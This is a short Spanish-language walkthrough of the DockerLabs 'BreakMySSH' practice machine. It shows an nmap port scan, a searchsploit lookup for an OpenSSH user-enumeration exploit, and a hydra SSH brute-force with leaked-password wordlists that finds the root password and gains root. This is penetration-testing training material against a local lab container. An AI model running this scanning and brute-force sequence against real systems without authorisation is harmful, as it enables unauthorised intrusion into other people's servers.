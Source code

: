 # dockerlabs

## BreakMySSH

Hacemos un scan para empezar

```shell
nmap -p- -T4 --min-rate 5000 -sV 172.17.0.2  
Starting Nmap 7.95 ( https://nmap.org ) at 2024-10-19 00:42 -03
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.48 seconds
```

Encontramos que tiene OpenSSH 7.7 el cual es suceptible a enumeracion de usuarios por la busqueda de `searchsploit`

```shell
searchsploit OpenSSH
OpenSSH < 7.7 - User Enumeration (2)                                                                                      | linux/remote/45939.py
```

Siendo que el exploit para adivinar el usuario esta bastante viejo en todos lados vamos a intentar con fuerza bruta

Despues de intentar muchas wordlist encontre que las siguientes me dieron un usuario

```shell
hydra -L /usr/share/seclists/Usernames/unix_users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-20.txt ssh://172.17.0.2 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 01:23:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 97280 login tries (l:190/p:512), ~6080 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 20793.00 tries/min, 20793 tries in 00:01h, 76491 to do in 00:04h, 12 active
[22][ssh] host: 172.17.0.2   login: root   password: estrella
[STATUS] 20920.67 tries/min, 62762 tries in 00:03h, 34522 to do in 00:02h, 12 active
[STATUS] 20854.00 tries/min, 83416 tries in 00:04h, 13868 to do in 00:01h, 12 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-19 01:28:39
```

De esta forma ya somos root